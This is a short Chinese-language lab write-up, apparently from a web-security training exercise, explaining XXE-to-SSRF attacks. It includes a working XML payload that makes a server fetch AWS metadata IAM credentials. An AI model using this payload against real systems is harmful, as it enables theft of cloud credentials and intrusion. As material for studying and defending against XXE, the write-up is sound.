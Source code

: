 # 知识点
要利用 XXE 漏洞执行 SSRF 攻击，您需要使用要定位的 URL 定义外部 XML 实体，并在数据值中使用定义的实体。如果您可以在应用程序响应中返回的数据值中使用定义的实体，那么您将能够从应用程序响应中的 URL 查看响应，从而获得与后端系统的双向交互。如果没有，那么您将只能执行盲目的 SSRF 攻击（这仍然会产生严重后果）。<br />在以下 XXE 示例中，外部实体将导致服务器向组织基础架构内的内部系统发出后端 HTTP 请求：
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
# 思路
```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
![image.png](./images/20231017_2355597157.png)
